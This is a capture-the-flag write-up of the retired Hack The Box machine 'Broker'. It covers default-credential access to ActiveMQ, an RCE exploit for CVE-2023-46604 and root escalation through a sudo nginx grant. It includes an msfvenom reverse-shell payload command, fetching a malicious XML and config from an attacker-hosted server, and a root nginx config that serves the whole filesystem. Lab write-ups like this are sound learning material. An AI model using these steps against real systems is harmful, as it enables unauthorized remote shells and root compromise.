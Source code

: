 ```yaml
---
title : Broker
order : 3
ogImage: /og-images/android-chrome-512x512.png
---
```


This is a retired Linux box from Hack The Box.

`Date : 21 Dec 2023 Thursday`

### Table of Content 

1. [Recon](#recon)
2. [Shell as activemq](#shell-as-activemq)
3. [Privilege escalation](#privilege-escalation)


### Recon

#### Nmap 

```
nmap --min-rate 1000 -p- -Pn 10.129.230.87 -oN nmap_tcp.txt
```

Output : 

![Screenshot from 2023-12-21 14-23-15](https://github.com/kris3c/kris3c.github.io/assets/128035061/75531d30-1c01-4798-8f6c-b0cffe8950b7)



So we can see different ports are open on the machine lets start with port 80.

![Screenshot 2023-12-21 at 14-25-41 Apache ActiveMQ](https://github.com/kris3c/kris3c.github.io/assets/128035061/8369e271-641a-44ca-a626-a16848659c28)

so we can see here ActiveMQ is running lets check the version 

Visiting /admin endpoint 

Trying with default credentials 

```
Username: Admin
Password : Admin
```

It worked

![Screenshot 2023-12-21 at 14-29-10 localhost ActiveMQ Console](https://github.com/kris3c/kris3c.github.io/assets/128035061/99b34b74-bdd4-4871-b0e6-6c69a870c53b)

we can see the version of the activemq that is **5.15.15**

### Shell as activemq 

Upon Searching for exploit related to this version i came across this repo: 

[CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

By following the instruction we can easily get the shell :

```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```

```
python3 -m http.server
```

Edit the file poc-linux.xml and adress for the poc-linux.xml 

```
go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:$RPORT/poc-linux.xml
```


### Privilege escalation

```
sudo -l 
```

![Screenshot from 2023-12-21 14-37-13](https://github.com/kris3c/kris3c.github.io/assets/128035061/aca8b287-5bc0-4e5a-a830-d9521dea4395)

we can execute the nginx with root privileges so let's start a web server which give is root access to the server on which it is running

```
cat /etc/nginx/nginx.conf | grep -v "/#" 
```

```
cat /etc/nginx/sites-enabled/default 
```

make a file on your system 

```
nano nginx.conf
```

```
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
	worker_connections 768;
}

http {
	server {
    		listen 1337;
    		location / {
    			root /;
    		}
        
      }
}

```

start python server 

```
python -m http.server
```

Download it on the machine in the /dev/shm directory

```
wget http://$RHOST:8000/nginx.conf
```

start the server

```
sudo nginx -c /dev/shm/nginx.conf
```

download the flag :

```
 curl http://localhost:1337/root/root.txt
```
